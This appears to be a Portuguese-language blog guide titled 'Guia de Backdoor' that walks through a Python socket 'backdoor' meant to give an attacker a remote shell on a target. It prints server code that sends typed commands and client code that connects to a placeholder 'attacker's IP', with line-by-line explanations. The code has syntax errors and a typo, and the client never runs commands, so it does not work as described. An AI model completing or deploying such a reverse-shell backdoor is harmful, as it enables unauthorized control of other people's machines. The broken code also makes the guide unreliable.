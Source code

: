 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor com servidor e cliente usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender
> um pouco de programação

# como configurar um servidor de socket

```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

# como estabelecer conexões de clientes no servidor socket

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```conn, addr = s.accept()```
* o método accept aguarda até que um cliente se conecte ao servidor. quando o cliente se conecta, accept retorna dois valores:
  
<ins>conn</ins>: um objeto de socket que permite a comunicação com o cliente.

<ins>addr</ins>:  uma tupla contendo o endereço Ip e a porta do cliente conectado.
  
```print(f"[+] Conectado a {addr}")```
* imprime uma mensagem no console indicando que a conexão foi estabelecida e mostra o endereço do cliente (addr)

# como estabelecer um looping que permite ao servidor enviar comandos a um cliente conectado e processar as respostas

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```command = input("Shell >")```
* solicita ao usuário que insira um comando (input), exibindo o promt "shell >"

```if command == 'exit'```
* veridica se o comando inserido pelo usuário é "exit"

```conn.send(b'exit')```
* se o comando for "exit", o servidor envia uma mensagem ao cliente para indicar que a conexão deve ser encerrada. A mensagem é enviada como bytes.

```conn.close```
  * fecha a conexão com o cliente.
 
```break```
  * sai(termina) o loop, interrompendo a execução
   
```else```
  * se o comando não for "exit", o servidor executa o bloco de código a seguir.

```conn.send(command.encode())```
* o comando e inserido é enviado ao cliente após ser convertido para bytes com encode().

```output = conn.recv(1024)```
* o servidor aguarda e recebe a resposta do cliente, lendo até 1024 bytes de dados

```print(output.decode())```
* a resposta recebida é convertida de bytes de volta para uma string decode() e é impressa no terminal do servidor.


# Cliente

```
import socket

#comunicação do socket com o servidor
c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(('attacker's IP', 8080)) #novamente, mude a porta ou ip se quiser

while True:
    output = c.recv(1024)
    print(output.decode())

    command = input(">>> ")
    c.send(command.encode())
```

```c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* cria um objeto de socket chamado c
* socket.AF_INTET indica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM especifica que o socket será do tipo TCP

```c.connect(('attacker's IP', 8080))```
* método conect() tenta estabelecer uma conexão com o servidor em tal ip e porta
